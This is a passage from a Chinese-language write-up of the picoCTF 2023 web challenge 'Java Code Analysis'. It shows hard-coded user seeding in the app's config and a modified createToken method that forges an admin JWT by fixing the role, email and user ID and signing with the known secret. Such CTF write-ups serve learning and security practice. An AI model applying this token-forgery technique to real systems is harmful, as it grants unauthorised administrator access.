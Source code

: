 

这是因为，虽然你目前已经拿到了“虚假”的Admin权限，但你的账号，在数据库里登记的依然是Free权限。唯能得到一个真正的Admin账号，我们才能看到这本“Flag”。



于是，我们又开始寻找数据库里的数据，是由谁进行初始化的呢？毕竟在我们刚下载好源代码时，项目文件夹里可没有任何数据库的文件呀。

![](../img/post_assets/‎2023‎-0‎3‎-‎16-picoctf-2023-web-exploitation-java-code-analysis/image-20230316195740362.webp)

P.S. 这个代表着数据库存放地点的文件夹是在初次运行后才出现的👆



在项目文件夹内尝试进行全局搜索，查找“"user"”这个关键词，我们可以看到，user这个账户的信息也是写死在了BookShelfConfig类中（“/src/main/java/io/github/nandandesai/pico/configs/BookShelfConfig.java”）：

```java
/*
 * Initialize admin and a user
 * */
User freeUser = new User();
freeUser.setProfilePicName("default-avatar.webp")
        .setRole(FreeRole)
        .setLastLogin(LocalDateTime.now())
        .setFullName("User")
        .setEmail("user")
        .setPassword(passwordEncoder.encode("user"));
userRepository.save(freeUser);

User admin = new User();
admin.setProfilePicName("default-avatar.webp")
        .setRole(AdminRole)
        .setLastLogin(LocalDateTime.now())
        .setFullName("Admin")
        .setEmail("admin")
        .setPassword(passwordEncoder.encode("<redacted>"));
userRepository.save(admin);

logger.info("initialized 'admin' and 'user' users.");
```



真是功夫不负有心人，只要我们能伪造下面那个admin的账号，我们就能拿到一个货真价实的admin权限账号了！

只要我们如法炮制，再次修改SecretGenerator类getServerSecret的实现，就能拿到admin账号的Payload，从而打开“Flag”这本书了：

```java
public String createToken(Integer userId, String email, String role){
    Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);

    Calendar expiration = Calendar.getInstance();
    expiration.add(Calendar.DATE, 7); //expires after 7 days

    role = "Admin";
    email = "admin";
    userId = 2;//从“user”账户的userId推出的来，先是创建了user账户（id为1），后创建了admin账户（id为2）
    System.out.println("!!!!!!!!! role: " + role);

    return JWT.create()
            .withIssuer(ISSUER)
            .withIssuedAt(new Date())
            .withExpiresAt(expiration.getTime())
            .withClaim(CLAIM_KEY_USER_ID, userId)
            .withClaim(CLAIM_KEY_EMAIL, email)
            .withClaim(CLAIM_KEY_ROLE, role)
            .sign(algorithm);
}
```